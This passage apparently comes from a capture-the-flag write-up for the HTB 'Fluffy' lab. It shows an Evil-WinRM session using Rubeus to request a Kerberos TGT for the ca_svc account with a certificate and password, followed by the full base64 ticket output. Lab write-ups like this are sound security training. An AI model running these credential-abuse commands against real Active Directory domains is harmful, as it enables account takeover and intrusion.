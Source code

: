 ```sh
Info: Upload successful!
```
Rubeus is a really great tool for managing client authentication for other tools. 

```sh
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./Rubeus.exe asktgt /user:ca_svc /certificate:MIIJ<snip>lIsfFAgIH0A== /password:"Xv5kPOhy57oYpl41" /domain:fluffy.htb /dc:DC01.fluffy.htb /getcredentials /show


   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ca_svc
[*] Building AS-REQ (w/ PKINIT preauth) for: 'fluffy.htb\ca_svc'
[*] Using domain controller: fe80::f197:7aac:42e4:bfd2%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      Zmx1ZmZ5Lmh0Yg==

  ServiceName              :  krbtgt/fluffy.htb
  ServiceRealm             :  FLUFFY.HTB
  UserName                 :  ca_svc (NT_PRINCIPAL)
  UserRealm                :  FLUFFY.HTB
  StartTime                :  5/26/2025 6:28:41 PM
  EndTime                  :  5/27/2025 4:28:41 AM
  RenewTill                :  6/2/2025 6:28:41 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
```